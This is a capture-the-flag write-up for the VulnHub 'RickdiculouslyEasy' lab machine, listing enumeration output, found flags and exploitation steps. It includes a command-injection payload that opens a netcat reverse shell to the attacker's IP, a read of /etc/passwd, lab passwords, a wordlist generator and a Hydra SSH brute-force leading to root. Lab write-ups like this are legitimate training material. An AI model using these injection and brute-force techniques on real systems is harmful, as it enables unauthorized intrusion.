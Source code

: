 # [Machine](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)
# 130/130 POINTS

- # ENUM
	- ### nmap (`nmap -sV -A -p- -T5 Rick-1 `)
		- ```PORT      STATE SERVICE    VERSION
			21/tcp    open  ftp        vsftpd 3.0.3
			| ftp-syst: 
			|   STAT: 
			| FTP server status:
			|      Connected to ::ffff:192.168.1.144
			|      Logged in as ftp
			|      TYPE: ASCII
			|      No session bandwidth limit
			|      Session timeout in seconds is 300
			|      Control connection is plain text
			|      Data connections will be plain text
			|      At session startup, client count was 2
			|      vsFTPd 3.0.3 - secure, fast, stable
			|_End of status
			| ftp-anon: Anonymous FTP login allowed (FTP code 230)
			| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
			|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
			22/tcp    open  tcpwrapped
			|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
			80/tcp    open  http       Apache httpd 2.4.27 ((Fedora))
			| http-methods: 
			|_  Potentially risky methods: TRACE
			|_http-title: Morty's Website
			|_http-server-header: Apache/2.4.27 (Fedora)
			9090/tcp  open  http       Cockpit web service 161 or earlier
			|_http-title: Did not follow redirect to https://Rick-1:9090/
			13337/tcp open  tcpwrapped
			22222/tcp open  ssh        OpenSSH 7.5 (protocol 2.0)
			| ssh-hostkey: 
			|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
			|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
			|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (ED25519)
			60000/tcp open  tcpwrapped
			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
		- ### PORTS
			- 21 -> ftp
			- 22 -> unknown
			- 80 -> http
			- 9090 -> http
			- 13337 -> unknown
			- 22222 -> ssh
			- 60000 -> unknown
	- ### dirbuster & gobuster
		- #### Port 80
			- `/index.html`
			- `/passwords`
				- `/FLAG.txt`
				- `/passwords.html`
			- `/robots.txt`
			- `/cgi-bin`
				- `/tracertool.cgi`
				- `/root_shell.cgi`

- # FLAGS
	- `http://rick-1/passwords/FLAG.txt` -> `FLAG{Yeah d- just don't do it.}` - ***10 Points***
	- `http://rick-1:9090/`-> `FLAG{THERE IS NO ZEUS, IN YOUR FACE!}` - ***10 Points***
	- FTP -> `FLAG.txt` -> `FLAG{Whoa this is unexpected} `- ***10 Points***
	- Connect to unknown ports (13337) via `netcat` -> `FLAG{TheyFoundMyBackDoorMorty}`- ***10 Points***
	- Connect to unknown ports (60000) via `netcat` -> `FLAG.txt` -> `FLAG{Flip the pickle Morty!}` - ***10 Points***
	- Summer@Rick-1 -> `FLAG.txt`-> `FLAG{Get off the high road Summer!}` - ***10 Points***
	- `journal.txt` ->`FLAG: {131333}` - ***20 Points***
	- `./safe 131333` ->`FLAG{And Awwwaaaaayyyy we Go!}` - ***20 Points***
	- /root/FLAG.txt -> `FLAG: {Ionic Defibrillator}` - ***30 points***

- # EXPLOITATION
	- `http://rick-1/passwords/passwords.html` -> password: `winter`
	- In `http://rick-1/cgi-bin/tracertool.cgi` there's a traceroute machine!
		- `127.0.0.1; nc -e /bin/bash 192.168.1.144 4444`
			- `grep "[a-zA-Z0-9]" /etc/passwd`
				- ```...
					RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
					Morty:x:1001:1001::/home/Morty:/bin/bash
					Summer:x:1002:1002::/home/Summer:/bin/bash
					...```
	- Connect via SSH to Summer (passoword: `winter`)
		- ```scp -P 22222 Summer@Rick-1:/home/Morty/Safe_Password.jpg /home/eppo```
			- Password: `Meeseek`
		- ```scp -P 22222 Summer@Rick-1:/home/Morty/journal.txt.zip /home/eppo```
		- ```scp -P 22222 Summer@Rick-1:/home/RickSanchez/RICKS_SAFE /home/eppo```
			- ```decrypt: 	Ricks password hints:
				(This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
				Follow these clues, in order
				
				1 uppercase character
				1 digit
				One of the words in my old bands name.```
	- Let's make a script:
		```python
		alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		digits = "0123456789"
		band = ["Flesh", "Curtains"]
		
		with open("/home/eppo/MyStuff/CyberSecurity/Scripts/RickPass/RickPasses.txt", 'w') as f:
		for alph in alphabet:
			for digit in digits:
				for bandWord in band:
					f.write(f"{alph}{digit}{bandWord}\n")
		```
	- Use Hydra to bruteforce the password:
		- `hydra -l RickSanchez -P RickPasses.txt Rick-1 ssh -s 22222 -V`
			- Password: `P7Curtains`
	- Log into SSH again with user `RickSanchez` and password `P7Curtains`
		- `sudo /bin/bash`
			- We're ROOT!
